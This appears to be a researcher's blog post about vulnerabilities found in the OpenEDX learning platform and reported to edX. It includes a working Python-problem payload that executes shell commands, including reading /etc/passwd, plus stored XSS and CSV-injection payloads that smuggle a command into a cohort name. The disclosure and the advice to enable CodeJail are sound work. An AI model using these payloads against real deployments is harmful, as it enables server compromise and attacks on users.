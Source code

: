 ```yaml
---
layout: post
title: How I found a Remote Code Execution in OpenEDX
---
```


**How I found a Remote Code Execution in OpenEDX**

![alt text](https://media-exp1.licdn.com/dms/image/C4D0BAQEImBWi8mCV9w/company-logo_200_200/0?e=1597881600&v=beta&t=3TJtPgE49E8s9Ox3X3h15mgb4Ls8vjX9_VL5DX9HkqY "Logo Title Text 1")

OpenEDX platform is really cool Learning Management System, which is also Open source (this time I was testing the Ironwood release 2.5). You can check it out here: <https://open.edx.org/the-platform/> When I was using it, I decided to check for their security. So I followed my normal approach: first mapping the app, writing down which functionalities it had, blackbox testing, and then whitebox.

As you can see here: <https://github.com/edx/edx-platform> the whole platform is written in Python (in which I don’t have many experience reviewing code). So I decided to go completely blackbox this time. As I really needed to know all the functionalities in depth, I went to the official documentation:

**https://edx.readthedocs.io/projects/open-edx-building-and-running-a-course/en/latest/index.html**

![alt text](https://pic.accessify.com/thumbnails/777x423/d/docs.edx.org.png "test")

So after some time digging in the docs I found this:
![ssdsd](https://i.imgur.com/HUdrMOi.png)

So it turns out that if you create an account in the OpenEDX platform instance and go to the Studio, create a Course, Create a Unit in the course and add a Problem. And if you choose Custom Python-Evaluated problem and use a payload such as:
~~~~
<problem>

<script type="python">
def test_add(expect,ans):
    os.system("cat /etc/passwd > /tmp/test_rce")
    
</script>

<p>Problem text</p>
<customresponse cfn="test_add" expect="20">
        <textline size="10" correct_answer="11" label="Integer #1"/><br/>
        <textline size="10" correct_answer="9" label="Integer #2"/>
</customresponse>

    <solution>
        <div class="detailed-solution">
          <p>Solution or Explanation Heading</p>
          <p>Solution or explanation text</p>
        </div>
    </solution>
</problem>
~~~~

And click the Submit button, you can execute code in the machine.


![alt text](https://i.imgur.com/1Mt3i9h.mp4)

So when I discovered this, I contacted EDX’s security team and they told me that there is a mitigation for this kind of issues, but it is not enabled by default:

**https://github.com/edx/codejail**

Apart from this vulnerability I also found a stored XSS. In EDX STUDIO&gt;CONTENT&gt; FILE UPLOADS&gt; Upload an SVG XSS file. And also 2 more XSS:

1) EDX STUDIO&gt;COURSENAME&gt;CONTENT&gt; UPDATES &gt; Press the edit button and replace the default thing with &lt;img src=x onerror=alert(0)&gt;

2) Finally in EDX STUDIO&gt;COURSENAME&gt;SETTINGS&gt;

Finally I found a CSV injection as well:

Course &gt;Instructor&gt;Cohorts&gt;Add cohort with the payload (ex: =cmd|' /C notepad'!'A1')&gt;Add your user to the cohort
Course&gt;Data Downloads&gt;Reports&gt;Download profile info as CSV&gt;The file is generated below, open in Excel 2016, Data&gt;Import data from file&gt;Choose CSV&gt;Using comma as delimiter.

So, that was all for today. Please make sure you enable CodeJail while using OpenEDX platform. Thanks for reading the post ;)
